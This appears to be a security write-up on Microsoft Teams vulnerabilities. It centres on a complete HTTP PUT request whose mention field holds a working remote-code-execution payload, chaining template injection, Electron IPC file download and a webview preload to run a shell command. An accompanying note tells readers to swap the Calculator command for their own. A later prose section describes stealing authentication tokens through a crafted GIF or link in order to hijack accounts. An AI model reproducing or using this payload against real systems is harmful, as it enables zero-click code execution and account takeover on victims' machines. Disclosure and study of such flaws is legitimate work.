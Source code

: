 Full HTTP PUT request with RCE payload:
```http
PUT /v1/users/ME/conversations/19%3A9bc6400d2fc7443487491898c6803e46%40thread.tacv2/messages/1598607494949 HTTP/1.1
Host: emea.ng.msg.teams.microsoft.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Authentication: ...snip...
ClientInfo: os=macos; osVer=10; proc=x86; lcid=en-us; deviceType=1; country=us; clientName=skypeteams; clientVer=1415/1.0.0.2020080725; utcOffset=+03:00
BehaviorOverride: redirectAs404
Content-Length: 1174


{"content":"<div><div>\n<div>\n<div>\n<div>\n<div><span itemscope itemtype=\"http://schema.skype.com/Mention\" itemid=\"0\">dada</span></div>\n</div>\n</div>\n</div>\n</div>\n</div>","messagetype":"RichText/Html","contenttype":"text","amsreferences":[],"clientmessageid":"9868848366534370000","imdisplayname":"Oskars Vegeris","properties":{"importance":"","subject":null,"mentions":"[{\"@type\":\"http://schema.skype.com/Mention\",\"itemid\":0,\"tagId\":\"tHab2TLzpa\",\"mri\":\"tHab2TLzpa\",\"mentionType\":\"tag\",\"displayName\":\"x marks the spot{{['if(typeof mentiontime==`undefined`){mentiontime=1;stage1=`data:text/plain,cp=require(\\\"child_process\\\");cp.exec(\\\"open /System/Applications/Calculator.app\\\")`;this.electronSafeIpc.send(`desktopFileDownload`,stage1);this.electronSafeIpc.on(`desktop-file-download-finished`,(_,fileinfo)=>{f=fileinfo.uniqueFile.filePath;stage2=`data:text/html,<webview src=\\\"about:blank\\\" preload=\\\"file:///${f}\\\"></webview>`;this.electronSafeIpc.send(`allowWindowOpenUrl`,stage2);this.w=window.open(stage2);setTimeout(()=>{this.w.close()},2000)})}'].forEach($root.$$childHead.$$nextSibling.app.$window.eval)}\u0000}\"}]"}}
```

! note: change the command, currently set for macOS Catalina as `open /System/Applications/Calculator.app`

**no user interaction is required simply visiting a chat will execute arbitrary code.**

# Sending a GIF on Microsoft Team:

![Workflow](https://1.bp.blogspot.com/-AigkCeCMz6U/XqfD0n_KMrI/AAAAAAAAMHo/JxDAToYNsjYns-_2cs9YVBOzBvaGnMnJgCLcBGAsYHQ/s1600/vulnerability-hijacking-microsoft-teams-account-gif-1.jpg)

The vulnerability resides in the Microsoft Teams processes authentication access tokens and passes them to resources containing images. If an attacker manages to create a GIF file or URL, Teams will send the authentication token to the attacker’s server while processing it. 

To make the attack successful via sending a link, the victim should click on the link but in the case of GIF image, the attack can be successful if the user views the image in Teams chat. Once the image is viewed or URL clicked, the attacker receives the token. 

Using this token, the attacker can hijack the victim’s Teams account by exploiting its API interfaces, and can access victim’s data on Teams, send messages, create and delete groups on the victim’s behalf, or modify a group’s permissions. 

Attackers can move further after receiving the tokens can perform many malicious activities. After hijacking the account attacker can access sensitive data, login credentials, business strategies/plans, and meeting schedules. Furthermore, it can also cause financial damage, data leakage, install malware, lure an employee to reset the password by impersonating as a team member.
